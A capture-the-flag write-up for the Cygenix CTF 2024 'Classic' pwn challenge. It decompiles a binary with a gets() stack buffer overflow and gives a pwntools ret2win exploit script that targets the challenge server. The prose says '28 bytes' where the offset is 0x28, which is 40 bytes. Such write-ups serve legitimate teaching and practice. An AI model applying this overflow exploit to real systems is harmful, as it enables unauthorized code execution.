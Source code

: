 # Cygenix CTF 2024

## Classic

> *"Every vulnerability is a door, and some doors lead to treasures."*
>
>  Author: N/A
>
> [`main`](main)

Tags: _pwn_

## Solution

To analyze the binary for this challenge we put it through `Ghidra`. We see the main is very short, it just prints a banner and reads input to a buffer on the stack. There is also a function `win` which is never called. This of course is the perfect `classic` setup for a `ret2win` challenge.

```c
void win(void)
{
  system("cat flag.txt");
  return;
}



undefined8 main(void)
{
  char local_28 [32];
  
  puts("----------------------------------------------");
  puts("c4n y0u pr0v3 y0ur 5k1ll5 4nd 637 7h3 ju1c3 ?");
  puts("----------------------------------------------");
  fflush(stdout);
  gets(local_28);
  return 0;
}
```

To solve this challenge we need to overflow the buffer and rewrite the return address on the stack to point to `win`. When the program wants to return from `main`, instead of going the normal path, win is called and we get the flag. Ghidra is nice enough to show us how many bytes we need to overflow by suffixing the buffer name with the offset value (28h).

So our payload is 28 bytes of nonsense bytes, to fill up the buffer and then the value of the return address we want to jump to (in this case win). One thing that players struggle with on a regular basis is [`a missaligned stack`](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment) when returning to the win function. One way around this issue, that often works, is to increment the jump address by one :-).

```py
from pwn import *

binary = ELF("./main")

p = remote("chall.ycfteam.in", 3333)
p.sendline(b"x"*0x28 + p64(binary.sym.win+1))
p.interactive()
```

Flag `CyGenixCTF{y0u_pr0v3d_y0ur_5k1ll5_r372w1n}`